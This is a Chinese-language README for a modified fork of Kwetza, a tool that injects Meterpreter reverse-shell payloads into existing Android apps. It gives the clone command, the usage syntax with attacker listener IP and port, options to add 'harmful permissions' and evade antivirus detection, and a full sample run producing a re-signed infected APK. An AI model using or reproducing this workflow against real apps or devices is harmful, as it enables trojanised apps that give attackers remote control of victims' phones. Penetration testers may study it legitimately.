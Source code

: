 # 介绍
By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza是一种工具，可让您使用Meterpreter有效负载感染现有的Android应用程序。
# 修改说明  
以下问题均出现在手机Termux终端上<br/>
1.指定脚本使用python3执行<br/>
2.修复语法错误:调用“print”时缺少括号<br/>
3.修复需要一个类似于bytes的对象，而不是'str'<br/>
4.修复'utf-8'编解码器无法解码字节0xa4在位置4:无效的开始字节<br/>

# 它有什么作用？

Kwetza使用自定义或默认有效负载模板感染现有的Android应用程序，以避免被防病毒软件检测。Kwetza允许您使用目标应用程序的默认权限感染Android应用程序，或注入其他权限以获得其他功能。
# 在哪里可以获得博客文章？
可以在以下位置找到由Kwetza自动化的手动步骤：https://sensepost.com/blog/2016/kwetza-infecting-android-applications/

# 获取代码

首先获取代码：
```
git clone https://github.com/2487686673/Kwetza.git
```

Kwetza用Python编写，需要BeautifulSoup，可以使用Pip安装：
```
pip install beautifulsoup4
```
Kwetza要求安装Apktool并可以通过您的PATH访问。可以使用位于此处的安装说明进行设置：https://ibotpeaches.github.io/Apktool/install
# 用法

python kwetza.py nameOfTheApkToInfect.apk https/tcp LHOST LPORT yes/no customClass

* nameOfTheApkToInfect.apk = 你想要感染的APK名称
* https/tcp = 选择https或tcp连接
* LHOST = 你的监听IP
* LPORT = 你的监听端口
* yes = include "yes" 向应用程序中注入其他有害权限, "no" 使用应用程序的默认权限.
* customClass = 如果要让Kwetza注入此活动，请在此处指定一个自定义活动

```
python kwetza.py hackme.apk https 10.42.0.118 4444 yes com.moo.another.activity
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


# 信息

Kwetza已开发为可与Python2配合使用。

默认情况下，Kwetza将使用位于“有效载荷”文件夹中的模板和密钥库来注入并签名受感染的apk。

如果您想使用自己的证书对受感染的应用程序进行签名，请生成一个新的密钥库，并将其放置在“ payload”文件夹中，然后重命名为现有的密钥库，或者在kwetza.py中更改引用。

对于有效负载模板也可以这样做。

默认密钥库的密码为“password”。
# License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0).

Permissions beyond the scope of this license may be available at http://sensepost.com/contact
